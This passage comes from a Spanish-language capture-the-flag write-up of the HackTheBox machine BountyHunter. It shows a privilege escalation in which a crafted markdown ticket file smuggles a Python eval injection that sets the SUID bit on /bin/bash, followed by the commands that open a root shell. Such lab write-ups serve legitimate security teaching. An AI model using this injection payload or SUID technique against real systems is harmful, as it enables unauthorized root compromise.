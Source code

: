 Donde **validationNumber** es el resultado de lo que enviamos al **eval()** y obviamente no es mayor que 100 porque se ejecutan 2 expresiones por lo que retornara **False** y eso nos mostrara el mensaje **Invalid ticket** pero eso no quiere decir que nuestro comando no se haya ejecutado:

Colocamos todo ese contenido a un archivo llamado **test.md** o como quieran llamarlo, ejecutamos el script como sudo y mencionamos la ruta del archivo test.md:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BOUNTYHUNTER/images/26.PNG)

Como ven se ejecuto el comando.

ahora podemos leer la flag desde ese archivo .md, entablarte una reverse shell con netcat o crear un usuario como administrador. Yo obtare por lo mas facil para mi que es asignar permisos SUID a la /bin/bash:

```markdown
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**102+1==103 and __import__('os').system('chmod +4755 /bin/bash')==False
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BOUNTYHUNTER/images/27.PNG)

No muestra ninguna salida el comando en si.

Pero si comprobamos:

```bash
ls -la /bin/bash
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BOUNTYHUNTER/images/28.PNG)

y si hacemos un:

```bash
/bin/bash -p
```

Ya somos root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/BOUNTYHUNTER/images/29.PNG)

